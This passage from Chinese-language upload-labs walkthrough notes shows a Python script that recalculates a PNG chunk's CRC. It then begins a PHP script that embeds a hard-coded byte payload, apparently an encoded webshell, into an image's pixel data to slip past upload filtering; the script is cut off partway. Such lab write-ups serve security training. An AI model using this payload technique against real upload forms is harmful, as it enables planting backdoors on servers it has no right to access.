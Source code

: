     2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        ![](../../../../assets/img/安全/实验/Web/upload-labs/15.png)

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);



    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }
